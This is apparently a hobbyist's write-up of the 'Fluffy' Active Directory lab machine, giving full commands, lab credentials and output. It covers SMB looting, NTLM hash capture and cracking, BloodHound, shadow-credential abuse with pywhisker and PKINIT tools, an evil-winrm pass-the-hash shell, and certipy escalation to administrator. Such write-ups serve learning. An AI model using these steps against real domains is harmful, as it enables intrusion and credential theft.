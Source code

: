 > s8 - window - ez -  i cannot do


> [!NOTE]  
> i have no idea what an ad is...
> we ball im going in blind
> 
> future me is gonna look at this and hopefully think 'this idiot'
> 
> but this is a self note guided by a writeup 

<details>
<summary>Nmap scan</summary>

```
# Nmap 7.95 scan initiated Fri Jul  4 05:33:07 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -O -v -oN Fluffy 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up (0.27s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-05 00:33:33Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 15h00m01s, deviation: 0s, median: 15h00m01s
| smb2-time: 
|   date: 2025-07-05T00:34:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 05:35:06 2025 -- 1 IP address (1 host up) scanned in 119.12 seconds
```
</details>

<details>
  <summary>Listing and connecting to SMB shares</summary>
 
smbclient -L //10.10.11.69 -U j.fleischman
```
  Password for [WORKGROUP\j.fleischman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```


smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 19 10:27:02 2025
  ..                                  D        0  Mon May 19 10:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

		5842943 blocks of size 4096. 1567835 blocks available
```

Downloading files from the share 
```
smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!
Try "help" to get a list of possible commands.
smb: \> recurse ON  //recursively get files
smb: \> prompt OFF  // ignore prompt 
smb: \> mget * //get all
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (121.6 KiloBytes/sec) (average 121.6 KiloBytes/sec)
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (838.1 KiloBytes/sec) (average 267.7 KiloBytes/sec)
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (149.9 KiloBytes/sec) (average 261.0 KiloBytes/sec)
```
</details>

Findings in share
=
Nice pdf, dont mind if i take a look 

![image](https://github.com/user-attachments/assets/e1ba2b62-022b-43ac-a719-20b07168758c)

mentioned cves in the pdf
> CVE-2025-24996

External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
![image](https://github.com/user-attachments/assets/3667dfe0-b375-45c7-a6a1-4f0339a83faa)
![image](https://github.com/user-attachments/assets/44a1832b-18f7-43d9-9149-ef50b6717f35)

> CVE-2025-24071

Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.

> CVE-2025-46785

Buffer over-read in some Zoom Workplace Apps for Windows may allow an authenticated user to conduct a denial of service via network access.
> CVE-2025-29968

Improper input validation in Active Directory Certificate Services (AD CS) allows an authorized attacker to deny service over a network.
> CVE-2025-21193

Active Directory Federation Server Spoofing Vulnerability
> CVE-2025-3445


Metasploit exploit the cve
=
time to use a module which aparently is not in metasploit

1st get the module (rb file) and put it into this folder for reasons, after that, run it to make the payload (evil zip file)
```
/usr/share/metasploit-framework/modules/auxiliary/server/
```

![image](https://github.com/user-attachments/assets/875edeef-220a-4d6c-8e0f-95d4ad006860)

and here we have the hash....
time to put the cat to work
![image](https://github.com/user-attachments/assets/59601e74-6897-442c-abf2-cde799d7b7bc)

good cat! 

```hashcat -m 5600 -a 0 agila-has.txt /usr/share/wordlists/rockyou.txt --force```
![image](https://github.com/user-attachments/assets/1a3fecce-2231-4d24-be78-ba4aef7398a4)

but too bad this user too is unprivilleged 

bloodhound 
=
Using bloodhound, we can try to get some information on thhe users in the ad?
<details>
fleischman

```
bloodhound-python -d FLUFFY.HTB -u j.fleischman -p "J0elTHEM4n1990!" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 51S
```

agila 

```
bloodhound-python -d FLUFFY.HTB -u p.agila -p "prometheusx-303" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 48S
```
RELEASE THE HOUND 
![image](https://github.com/user-attachments/assets/a59f7c9c-5223-4dda-98e8-2d29da1e6096)

> defenitely did not take an hour debugging postgresql, neo4j and bloodhound

but here we have it, good hound !
![image](https://github.com/user-attachments/assets/68d0e25f-0929-47bc-9695-21df4632c488)
![image](https://github.com/user-attachments/assets/8fc99465-4361-453a-b1fd-b97a765d1596)
![image](https://github.com/user-attachments/assets/ae670e0a-bc69-4ef2-acc0-974b4dfb25ae)

From this image, its knwon that agila has a service account manager role...

![image](https://github.com/user-attachments/assets/b0c5342d-540e-42aa-b834-ccc4495af5ad)

And from the servuce account manager role, we can see that we can do alot because of the GenericWrite permission. 

</details>

Attack 
=
Next we start the atatck

> give service manager role to agila and make fake cert
![image](https://github.com/user-attachments/assets/2c6d7619-ef2a-4ca1-baf7-9bf33a76a7bf)

> oh, kerberos is very dependent on time, im calling dio (this part didnt really work out) 
> ![image](https://github.com/user-attachments/assets/4addd188-9a23-4342-9fed-fd8a7be68cd8)
> ![image](https://github.com/user-attachments/assets/e2c85061-4c56-4765-8ec1-16b20d250ff5)


> after spending way too much time (pun) changing the system time to match their system time, it was make known that GUI through system settings was the only way
> ![image](https://github.com/user-attachments/assets/887affa9-8395-4e85-935a-061cc7fd3301)

> as the repo stated, its magic really, it was
> ![image](https://github.com/user-attachments/assets/e3db27de-6920-47f6-867f-8601bc42d3f9)

> now time to get a shell and it will be smooth sailing from there 
> ![image](https://github.com/user-attachments/assets/264a9d81-af80-4e84-806a-4bb1d1b78fea)

> [!NOTE]
> This is all for me to refer back incase i forget (which i am very forgetful)
> mostly ai gen as i dont know much aabout windows ad **aS A lINux uSEr**

The exploit here is using shadow crdential and exploit the ```msDS-KeyCredentialLink``` in AD. It allows users authenticate with a certificate instead of a password. 
This attack requires at least a user access and GenericWrite or GenericAll over target user (in this case agila) or WriteProperty specifically on msDS-KeyCredentialLink. Thse usually comes from compromosed service account or misconfigured privilleges. 

The attack starts with generating a new RSA key pair and certificate with pywisker. It also writes the cert and keypair to the target user's msDS-KeyCredentialLink
```
./pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
```
in the ad, this happens
```
# This is essentially what pywhisker does via LDAP
Set-ADUser -Identity "winrm_svc" -Add @{'msDS-KeyCredentialLink'=$certificateData}
# by claude
```

Next Up is the TGT REquest from gettgtpkinit (get tgt pk init?)
A TGT (ticket granting ticket), a weird ass Microsoft term =) is an encrypted ticket issued by the Authentication Server (AS). It is used to access network rescources.

By using the private key generated from pywhisker, it sends AS-REQ (Authentication Server Request) with PKINIT (Public Key Cryptography for Initial Authentication)
On the server side, the domain controller validates the certificate against msDS-KeyCredentialLink and issues a TGT and  session key if valid 
```
python3 gettgtpkinit.py -cert-pem V0shaM75_cert.pem -key-pem V0shaM75_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache
```

Now that we have an AES ket from the TGT Request from before to request the victim user (in this case winrm) NT hash through the U2U (User-to-User) authentication process.
NT hash is the windows format of storing and hashing password which allows evil-winrm to usse it for authentication 
```
python3 getnthash.py -key "c8544f389cecfe58224d6728259683b5d845ca591cad93f892427e123a5e0850" fluffy.htb/winrm_svc
```

Then finally the attacker can get a shell by using evil-winrm and the NT hash from previous step. 
```
evil-winrm -i 10.10.11.69 -u winrm_svc -H "33bd09dcd697600edf6b3a7af4875767"
```


<hr><hr><br>

> [!NOTE]
> I may be dumb bt some steps here are purely out of curiosity, noted down for future me to come back and burn current me


 
 ![image](https://github.com/user-attachments/assets/e35ef17f-5dc3-470c-a683-a91737b5d6ce)



Finding vulnerable certs with certipy, good snake !
```certipy find -vulnerable -u "p.agila@fluffy.htb" -p "prometheusx-303" -dc-ip 10.10.11.69 -stdout```
![image](https://github.com/user-attachments/assets/11ac771d-9f2e-4d89-a4ac-b5676c855d6c)

get information about the ca_svc account using certipy
```certipy account -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip '10.10.11.69' -user 'ca_svc' read```

![image](https://github.com/user-attachments/assets/99d5c010-4f75-48c3-bae3-20476b154a67)


Round 2 or using PKINIT and pywhisker to get the NT hash 
<details>
Start with pywhisker to add the thing 
	
```
./pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add"

[*] Searching for the target account
[*] Target user found: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: c66a30df-0617-55ee-1419-d3d8c3978218
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: zH1o4ezi.pfx
[+] PFX exportiert nach: zH1o4ezi.pfx
[i] Passwort für PFX: x87NE7ETjP6zv2QLtQ2M
[+] Saved PFX (#PKCS12) certificate & key at path: zH1o4ezi.pfx
[*] Must be used with password: x87NE7ETjP6zv2QLtQ2M
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

2. get the tgt 
```
python3 gettgtpkinit.py -cert-pem zH1o4ezi_cert.pem -key-pem zH1o4ezi_priv.pem fluffy.htb/ca_svc casvc.ccahce

2025-07-08 23:58:26,792 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-07-08 23:58:26,806 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-07-08 23:58:27,529 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-07-08 23:58:27,529 minikerberos INFO     e56f3f68730ec21f712d9d4f8a4f39d5b9380d9e6005fcf28481063176793f6d
INFO:minikerberos:e56f3f68730ec21f712d9d4f8a4f39d5b9380d9e6005fcf28481063176793f6d
2025-07-08 23:58:27,537 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

3. get the hash
```
; export thhe variable first cuz getnt hash needs it this way 
KRB5CCNAME=casvc.ccahce

python3 getnthash.py -key "e56f3f68730ec21f712d9d4f8a4f39d5b9380d9e6005fcf28481063176793f6d" fluffy.htb/ca_svc
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
ca0f4f9e9eb8a092addf53bb03fc98c8
```

</details>

Now we have the CA account's hash, ~~heavens~~ door open with pass the hash atatcks. 
Starting with finding more vulnerabble certs.
However, there is one issue  -> ```1280 20250709000915_Certipy.txt```
So time to send the file to mr gpt ad it says its vulnerable to "ESC2/ESC3" attacks 

![image](https://github.com/user-attachments/assets/325579f4-55f9-46b5-b2ee-ef475bebdda5)

Change the UPN of ca_svc account 
![image](https://github.com/user-attachments/assets/899cdeb5-92d9-4956-a238-2b2cf3600712)



ok admin file get 
![image](https://github.com/user-attachments/assets/c4ef6ca2-4019-421f-974c-2ffb167b0948)

now we auth with admin cert file (pfx)
![image](https://github.com/user-attachments/assets/41f6c767-5e03-43ba-b949-6de940d7ee58)


![image](https://github.com/user-attachments/assets/978e6fb4-b3da-4a4d-a4ed-fc7a207c61c1)


Final note : honestly i started wanting to kill myslelf, but now, windows ad seems fun (provided you udnerstand what the words mean
